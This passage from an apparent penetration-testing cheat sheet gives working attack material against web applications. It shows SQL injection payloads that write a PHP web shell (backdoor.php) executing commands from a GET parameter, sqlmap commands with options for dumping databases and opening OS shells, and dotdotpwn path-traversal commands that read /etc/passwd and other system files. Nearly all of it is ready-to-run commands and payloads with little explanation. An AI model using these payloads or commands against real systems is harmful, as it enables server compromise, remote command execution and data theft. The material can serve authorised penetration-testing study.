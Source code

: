 
Inject a [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/simple_php_web_shell_get.php) based on HTTP GET request:

```fundamental
' UNION SELECT '', '', '', '<?php if(isset($_GET["command"])){echo shell_exec($_GET["command"]);} ?>' INTO DUMPFILE '..\\..\\htdocs\\backdoor.php'-- 

' UNION SELECT '', '', '', '<?php $p="command";$o=null;if(isset($_SERVER["REQUEST_METHOD"])&&strtolower($_SERVER["REQUEST_METHOD"])==="get"&&isset($_GET[$p])&&($_GET[$p]=trim($_GET[$p]))&&strlen($_GET[$p])>0){$o=@shell_exec("($_GET[$p]) 2>&1");if($o===false){$o="ERROR: The function might be disabled.";}else{$o=str_replace("<","&lt;",$o);$o=str_replace(">","&gt;",$o);}} ?><!DOCTYPE html><html lang="en"><head><meta charset="UTF-8"><title>Simple PHP Web Shell</title><meta name="author" content="Ivan Šincek"><meta name="viewport" content="width=device-width, initial-scale=1.0"></head><body><pre><?php echo $o;unset($o);unset($_GET[$p]); ?></pre></body></html>' INTO DUMPFILE '..\\..\\htdocs\\backdoor.php'-- 
```

**To successfully inject a web shell, the current database user must have a write permission.**

### sqlmap

Inject SQL code into request parameters:

```fundamental
sqlmap -a -u somesite.com/index.php?username=test&password=test

sqlmap -a -u somesite.com/index.php --data username=test&password=test

sqlmap -a -u somesite.com/index.php --data username=test&password=test -p password
```

| Option | Description |
| --- | --- |
| -u | Target URL |
| -H | Extra HTTP header |
| --data | Data string to be sent through POST |
| --cookie | HTTP Cookie header value |
| --proxy | Use a proxy to connect to the target URL (\[protocol://\]host\[:port\]) |
| -p | Testable parameter(s) |
| --level | Level of tests to perform (1-5, default: 1) |
| --risk | Risk of tests to perform (1-3, default: 1) |
| -a | Retrieve everything |
| -b | Retrieve DBMS banner |
| --dump-all | Dump all DBMS databases tables entries |
| --os-shell | Prompt for an interactive operating system shell |
| --os-pwn | Prompt for an OOB shell, Meterpreter, or VNC |
| --sqlmap-shell | Prompt for an interactive sqlmap shell |
| --wizard | Simple wizard interface for beginner users |
| --dbms | To do. |

### dotdotpwn

Traverse a path (e.g., `somesite.com/../../../etc/passwd`):

```fundamental
dotdotpwn -q -m http -S -o windows -f /windows/win.ini -k mci -h somesite.com

dotdotpwn -q -m http -o unix -f /etc/passwd -k root -h somesite.com

dotdotpwn -q -m http-url -o unix -f /etc/hosts -k localhost -u 'https://somesite.com/index.php?file=TRAVERSAL'
```
